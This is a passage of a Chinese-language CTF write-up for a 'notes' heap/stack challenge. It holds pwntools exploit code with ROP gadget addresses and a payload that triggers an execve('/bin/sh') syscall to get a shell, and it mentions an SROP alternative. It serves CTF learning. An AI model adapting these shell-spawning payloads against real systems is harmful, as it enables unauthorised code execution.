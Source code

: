 ```py
    sla('Enter Choice: ',str(ch))
def add(id,name,size,cont):
    sl('1')
    sla('Enter Note ID: ',str(id))
    sa('Enter Note Name:',name)
    sla('Enter Note Size: ',str(size))
    sa('Enter Note Content: ',cont)
def delete(idx):
    menu(2)
    sla('Enter Note ID: ',str(idx))
def show(idx,name,cont):
    menu(3)
    sla('Enter Note ID: ',str(idx))
    sla('Note Name: ',name)
    sla('Enter Note Content: ', cont)
def edit(size,name):
    menu(4)
    sla('Enter Note Size: ',str(size))
    sla('Enter Name: ',name)
def encrypt(idx,cont):
    menu(5)
    sla('Enter Note ID: ',str(idx))
    sla('Enter Note Content: ',cont)

def decrypt(cont):
    return xor(cont, b"2111485077978050")
syscall=0x401bc2
poprdi=0x0000000000401bc0
poprbp=0x00000000004011ed
#gdb.attach(p,'b* 0x401B7A')
add(0,'aaa',0x20,'\x00'*8)
payload='\x00'*0x48+p64(poprdi)+p64(0x3b)+p64(elf.sym['syscall'])+'\x00'*0x330+'/bin/sh\x00'*4
encrypt(0,decrypt(payload))
sleep(6)
add(0,'aaa',0x20,'\x00'*8)
sleep(2)
edit(len(payload),'\x00'*8)
sleep(3)

p.interactive()
```

另外官方中给的方法是SROP(`https://discord.com/channels/862962550169665568/1063844806977130596/1066734947768999946`)，比赛中也想到了用SROP，只不过想用read的返回值来控制rax，忘了可以直接syscall了，先往bss段写一个/bin/sh，然后执行SROP即可.这里脚本参考了部分来自于sAsPeCt师傅(`sAsPeCt#8643`)的脚本(`https://discord.com/channels/862962550169665568/1063844806977130596/1066799179550171237`)

exp:

```py
from pwn import *

p = process('./notes')
#p=remote('pwn.chall.bi0s.in',37981)
libc=ELF('./libc.so.6')
elf=ELF('./notes')
context.log_level = 'debug'
context.arch = 'amd64'
r = lambda x: p.recv(x)
ra = lambda: p.recvall()
rl = lambda: p.recvline(keepends=True)
ru = lambda x: p.recvuntil(x, drop=True)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
```